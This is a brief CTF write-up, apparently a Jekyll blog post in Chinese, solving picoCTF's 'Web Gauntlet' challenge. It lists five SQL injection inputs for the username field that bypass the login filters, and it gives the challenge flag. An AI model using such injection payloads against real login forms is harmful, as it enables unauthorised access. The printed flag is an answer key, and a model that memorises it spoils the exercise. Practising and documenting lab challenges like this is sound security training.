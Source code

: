 ```yaml
---
layout: post
title:  "picoCTF - Web Gauntlet"
description: 
date:   2023-12-29 10:10:00 +0800
# last_modified_at:
categories: [CTF, picoCTF-Web Exploitation]
author: d13
tags: [ctf, web exploitation, picoctf]
---
```


# Question

[https://play.picoctf.org/practice/challenge/88](https://play.picoctf.org/practice/challenge/88)

# Solution


題目就是在考SQL Injection而已，filter.php那個連結會提示他過濾了那些字。但我很多題都送一樣的sql進去，反正能過關就好，也是因為我會的指令也不多就是了...

以下附上我每題的input，通通都是加在username那一欄，password隨便打：

1. `admin;--`
2. `admin';0x2d2d`
3. `admin;0x2d2d`
4. `ad||min';0x2d2d`
5. `ad||min';0x2d2d`

# Flag

picoCTF{y0u_m4d3_1t_16f769e719ab9d3e310fd13dc1262ee1}